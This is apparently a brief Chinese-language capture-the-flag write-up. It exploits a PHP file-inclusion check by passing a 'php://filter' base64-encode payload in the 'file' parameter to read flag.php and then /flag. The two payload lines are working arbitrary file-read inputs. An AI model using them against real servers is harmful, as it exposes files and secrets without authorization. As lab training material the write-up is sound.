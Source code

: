 ![img](./assets/wps283.jpg)

分析源码

get传参file

并且判断file的0-3位是否为：php

include文件包含

提示存在flag.php

利用php伪协议读取flag.php

构造payload：

?file=php://filter/read=convert.base64-encode/resource=flag.php

 

![img](./assets/wps284.jpg) 

 

 

 

 

![img](./assets/wps285.jpg) 

 

提示真正的flag在/flag

 

重新构造payload：

?file=php://filter/read=convert.base64-encode/resource=/flag

![img](./assets/wps286.jpg) 

 

![img](./assets/wps287.jpg) 

 

 